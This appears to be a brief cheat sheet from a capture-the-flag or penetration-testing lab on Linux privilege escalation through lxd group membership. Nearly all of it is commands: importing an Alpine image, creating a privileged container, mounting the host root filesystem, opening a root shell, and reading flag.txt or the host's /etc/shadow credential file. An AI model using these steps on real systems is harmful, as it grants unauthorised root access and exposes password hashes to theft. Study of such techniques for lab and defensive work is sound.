 - Look at what groups you are a part of, lxd or docker
- Steps to take for privesc
	- cd ContainerImages
	- lxc import alpine-v3.18-x86_64-20230607_1234.tar.gz --alias <whatevername>
		- lxc image list
		- lxc init <whatevername> privesc -c security.privileged=true
		- lxc config device add privesc host-root disk source=/  path=/mnt/root recursive=true
		- lxc start privesc
		- lxc exec privesc /bin/bash OR /bin/sh
		- From here, run ID when you get the # prompt
		- Run the following command to start:
			- ls -l /mnt/root. This is because you have mounted on to the actual system, mnt/root is your starting point.
		- To view contents, you can run:
			- cd /mnt/root/root/ and cat /mnt/root/root/flag.txt
			OR
			- From /mnt/root
			- cat /mnt/root/etc/shadow
